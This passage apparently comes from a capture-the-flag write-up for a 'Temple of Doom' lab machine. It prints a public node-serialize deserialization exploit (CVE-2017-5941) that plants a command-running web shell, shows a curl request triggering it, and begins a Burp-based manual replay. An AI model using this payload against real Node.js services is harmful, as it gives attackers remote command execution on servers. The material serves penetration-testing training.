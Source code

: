 ```console
root@kali:~$ searchsploit -m nodejs/webapps/50036.js
```

If we analyze the exploit code, we need to inject our payload into the cookie value to trigger the execution of commands.

```console
root@kali:~$ cat 50036.js 
# Exploit Title: Node.JS - 'node-serialize' Remote Code Execution (3)
# Date: 17.06.2021
# Exploit Author: Beren Kuday GORUN
# Vendor Homepage: https://github.com/luin/serialize
# Software Link: https://github.com/luin/serialize
# Version: 0.0.4
# Tested on: Windows & Ubuntu
# CVE : 2017-5941

var serialize = require('node-serialize');
var payload = {
    "webShell" : "_$$ND_FUNC$$_function(){const http = require('http'); const url = require('url'); const ps  = require('child_process'); http.createServer(function (req, res) { var queryObject = url.parse(req.url,true).query; var cmd = queryObject['cmd']; try { ps.exec(cmd, function(error, stdout, stderr) { res.end(stdout); }); } catch (error) { return; }}).listen(443); }()"
    }
serialize.unserialize(serialize.serialize(payload))

/*
# after being exploited

┌──(root@kali)-[/home/kali]
└─# curl http://10.0.2.4:443?cmd=whoami
nodeadmin
```

We can replicate the exploitation process manually, first we intercept the request with burp, right click and **Send to Repeater**.

![](/assets/images/templeofdoom/screenshot-3.png)
